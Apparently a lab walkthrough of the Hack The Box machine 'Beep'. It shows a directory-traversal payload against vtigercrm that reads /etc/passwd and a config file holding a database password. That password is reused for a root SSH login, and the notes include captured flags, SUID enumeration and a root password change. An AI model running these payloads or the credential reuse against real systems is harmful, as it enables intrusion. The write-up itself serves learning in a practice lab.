 We have a login page hosted on the default web page
Its running some kind of service named Elastix
Our first step should be to enumerate this web directory

I've found a few interesting things: 
```bash
/mail    (Status: 301) [Size: 316] [--> https://10.129.229.183/mail/]
/admin   (Status: 301) [Size: 317] [--> https://10.129.229.183/admin/]
/configs (Status: 301) [Size: 319] [--> https://10.129.229.183/configs/]
```

We have a login page for `/mail` and `/admin`

```
https://10.129.229.183/admin/config.php
```

In failing to login we are sent to `/admin/config.php` and we find some version info for `FreePBX version 2.8.1.4`

```
https://10.129.14.86/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

```
AMPDBPASS=jEhdIekWmdjE
```

```
view-source:https://10.129.14.86/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
```

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
Sorry! Attempt to access restricted file.
```

```
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 fanis@10.129.14.86
```

```
ssh -oKexAlgorithms=+diffie-hellman-group14-sha1 \
    -oHostKeyAlgorithms=+ssh-rsa \
    root@10.129.14.86

password: jEhdIekWmdjE
```

```
[root@beep ~]# whoami
root
```

```
[root@beep fanis]# cat user.txt 
1bdf5ba85c5eaf83b86cf0413ce21bdd
```

```
[root@beep ~]# cat root.txt 
c028dae6e9912565f145fc9776e3990f
```

---

# SUID's and PATH Hijacking 

```php
find / -perm -4000 -type f 2>/dev/null

/usr/bin/sperl5.8.8
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/at
/usr/bin/chage
/usr/bin/sudoedit
/usr/bin/chfn
/usr/bin/newgrp

/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/libexec/mc/cons.saver
/usr/libexec/openssh/ssh-keysign
/usr/sbin/ccreds_validate
/usr/sbin/userhelper
/usr/sbin/suexec
/usr/sbin/usernetctl
/usr/kerberos/bin/ksu
/bin/mount
/bin/umount
/bin/su
/bin/ping
/bin/ping6
/lib/dbus-1/dbus-daemon-launch-helper
/sbin/pam_timestamp_check
/sbin/mount.nfs
/sbin/umount.nfs
/sbin/umount.nfs4
/sbin/mount.nfs4
/sbin/unix_chkpwd
```

A list of SUID binaries on beep
https://gtfobins.github.io/#cronta
Check what is vulnerable

```php
sudo -l

sudo -l
Matching Defaults entries for notdrew1 on htb-e0ligctgs4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/root/.local/bin

User notdrew1 may run the following commands on htb-e0ligctgs4:
    (ALL) NOPASSWD: ALL
```

```php
[root@beep fanis]# env -i /usr/bin/passwd
Changing password for user root.
New UNIX password: 
BAD PASSWORD: it is WAY too short
Retype new UNIX password: 
passwd: all authentication tokens updated successfully.
```

changed the root users password

```php
find / -type f -writable -exec ls -l {} \; 2>/dev/null | grep cron
```

No writable cron files were found on the machine

```php
crontab -l
no crontab for root
```

Let's create a fake binary


